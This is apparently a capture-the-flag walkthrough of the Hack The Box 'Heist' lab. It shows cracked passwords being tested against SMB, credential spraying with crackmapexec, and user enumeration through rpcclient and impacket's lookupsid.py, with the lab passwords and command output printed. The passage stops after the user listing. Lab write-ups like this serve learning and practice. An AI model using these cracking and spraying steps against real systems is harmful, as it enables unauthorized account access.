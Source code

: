 Post from hazard to admin

In the attachment we got some hash and 7 passwords.

For the hash I used john.

And for 7 password I used this site - https://www.ifm.net.nz/cookbooks/passwordcracker.html

Where I got both the password…

    smbclient --list //10.10.10.149/ -U 'Hazard'                                                                                                 
Enter WORKGROUP\Hazard's password: stealth1agent

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.149 failed (Error NT_STATUS_IO_TIMEOUT)
Unable to connect with SMB1 -- no workgroup available

    smbclient --list //10.10.10.149/ -U 'rout3r'
    
Enter WORKGROUP\rout3r's password: $uperP@ssword
session setup failed: NT_STATUS_LOGON_FAILURE

    smbclient --list //10.10.10.149/ -U 'admin'                                                                                                  
Enter WORKGROUP\admin's password: Q4)sJu\Y8qz*A3?d
session setup failed: NT_STATUS_LOGON_FAILURE

Next, we will go on to use crackmapexec to see if we have any valid username and password combination. we can move on to enumerate users.

    crackmapexec smb 10.10.10.149 -u users.txt -p passwords.txt                                                                                  

SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)

SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Hazard:stealth1agent


    rpcclient -U 'hazard%stealth1agent' 10.10.10.149
>lookupnames administrator
>lookupnames hazard

 I tried to login with evil-winrm with all the creds....but none worked 

I used lookupsid.py from impacket to enumerate the other users:

First add to -- nano /etc/hosts
10.10.10.149	heist.htb

    lookupsid.py hazard:stealth1agent@heist.htb
    
****Output****

    Impacket v0.9.25.dev1+20220105.151306.10e53952 - Copyright 2021 SecureAuth Corporation
    
    [*] Brute forcing SIDs at heist.htb
    [*] StringBinding ncacn_np:heist.htb[\pipe\lsarpc]
    [*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
    500: SUPPORTDESK\Administrator (SidTypeUser)
    501: SUPPORTDESK\Guest (SidTypeUser)
    503: SUPPORTDESK\DefaultAccount (SidTypeUser)
    504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
    513: SUPPORTDESK\None (SidTypeGroup)
    1008: SUPPORTDESK\Hazard (SidTypeUser)
    1009: SUPPORTDESK\support (SidTypeUser)
    1012: SUPPORTDESK\Chase (SidTypeUser)
    1013: SUPPORTDESK\Jason (SidTypeUser)
